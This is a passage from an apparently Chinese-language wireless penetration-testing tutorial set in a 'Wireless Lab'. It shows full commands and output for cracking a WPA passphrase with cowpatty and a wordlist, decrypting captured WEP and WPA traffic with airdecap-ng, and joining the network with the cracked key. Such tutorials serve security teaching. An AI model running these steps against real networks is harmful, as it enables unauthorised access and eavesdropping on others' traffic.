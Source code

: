 或者使用`cowpatty`工具计算

```bash
root@kali:~# cowpatty -r wpa_crack-01.cap -f /usr/share/wordlists/rockyou.txt -s "Wireless Lab"
cowpatty 4.8 - WPA-PSK dictionary attack. <jwright@hasborg.com>

Collected all necessary data to mount crack against WPA2/PSK passphrase.
Starting dictionary attack.  Please be patient.
key no. 1000: skittles1
......
The PSK is "QWER1234".
53854 passphrases tested in 51.06 seconds:  1054.73 passphrases/second
```

### 解密WEP WPA数据包

使用`airdecap-ng`工具进行解密

```bash
root@kali:~# airdecap-ng -w ABCDEFABCFDED12ACDFDCAEFCA wep_crack-01.cap
Total number of stations seen            5
Total number of packets read        278054
Total number of WEP data packets    155359
Total number of WPA data packets         0
Number of plaintext data packets         0
Number of decrypted WEP  packets    155359
Number of corrupted WEP  packets         0
Number of decrypted WPA  packets         0
Number of bad TKIP (WPA) packets         0
Number of bad CCMP (WPA) packets         0

root@kali:~# airdecap-ng -p qwer1234 wpa_crack-01.cap -e "No Password" 
Total number of stations seen            5
Total number of packets read         20139
Total number of WEP data packets         0
Total number of WPA data packets      6512
Number of plaintext data packets         0
Number of decrypted WEP  packets         0
Number of corrupted WEP  packets         0
Number of decrypted WPA  packets      1954
Number of bad TKIP (WPA) packets         0
Number of bad CCMP (WPA) packets         0
```

## 连接进入网络

WEP网络

```bash
root@kali:~# iwconfig wlan0 essid "Wireless Lab" key ABCDEFABCFDED12ACDFDCAEFCA
root@kali:~# iwconfig     

eth0      no wireless extensions.

lo        no wireless extensions.

wlan0     IEEE 802.11bg  ESSID:"Wireless Lab"  Nickname:"<WIFI@REALTEK>"
          Mode:Managed  Frequency:2.437 GHz  Access Point: E4:D3:32:44:61:BE   
          Bit Rate:54 Mb/s   Sensitivity:0/0  
          Retry:off   RTS thr:off   Fragment thr:off
          Encryption key:ABCD-EFAB-CFDE-D12A-CDFD-CAEF-CA   Security mode:open
          Power Management:off
          Link Quality=37/100  Signal level=-64 dBm  Noise level=0 dBm
          Rx invalid nwid:0  Rx invalid crypt:0  Rx invalid frag:0
          Tx excessive retries:0  Invalid misc:0   Missed beacon:0
```
